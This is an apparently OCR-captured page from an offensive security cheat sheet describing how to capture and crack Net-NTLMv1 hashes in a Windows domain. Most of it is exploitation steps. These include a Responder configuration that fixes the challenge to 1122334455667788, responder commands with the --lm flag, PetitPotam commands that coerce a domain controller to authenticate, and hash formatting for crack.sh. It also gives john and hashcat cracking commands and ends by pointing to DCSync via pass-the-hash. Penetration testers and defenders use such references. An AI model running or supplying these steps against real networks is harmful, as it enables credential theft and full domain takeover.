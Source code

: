 ## Capturing and cracking Net-NTLMv1/NTLMv1 hashes

> Net-NTLM (NTLMv1) hashes are used for network authentication (they are derived from a challenge/response algorithm and are based on the user's NT hash.

:information_source: : Coerce a callback using PetitPotam or SpoolSample on an affected machine and downgrade the authentication to **NetNTLMv1 Challenge/Response authentication**. This uses the outdated encryption method DES to protect the NT/LM Hashes.

**Requirements**:

- LmCompatibilityLevel = 0x1: Send LM & NTLM (`reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel`)

**Exploitation**:

- Capturing using Responder: Edit the `/etc/responder/Responder.conf` file to include the magical **1122334455667788** challenge
    
    ```ps1
    HTTPS = On
    DNS = On
    LDAP = On
    ...
    ; Custom challenge.
    ; Use "Random" for generating a random challenge for each requests (Default)
    Challenge = 1122334455667788
    ```
    
- Fire Responder: `responder -I eth0 --lm`, if `--disable-ess` is set, extended session security will be disabled for NTLMv1 authentication
- Force a callback:
    
    ```ps1
    PetitPotam.exe Responder-IP DC-IP # Patched around August 2021
    PetitPotam.py -u Username -p Password -d Domain -dc-ip DC-IP Responder-IP DC-IP # Not patched for authenticated users
    ```
    
- If you got some `NTLMv1 hashes`, you need to format them to submit them on [crack.sh](https://crack.sh/netntlm/)
    
    ```ps1
    username::hostname:response:response:challenge -> NTHASH:response
    NTHASH:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972
    ```
    
- Or crack them with Hashcat / John The Ripper
    
    ```ps1
    john --format=netntlm hash.txt
    hashcat -m 5500 -a 3 hash.txt
    ```
    
- Now you can DCSync using the Pass-The-Hash with the DC machine account

:warning: NTLMv1 with SSP(Security Support Provider) changes the server challenge and is not quite ideal for the attack, but it can be used.
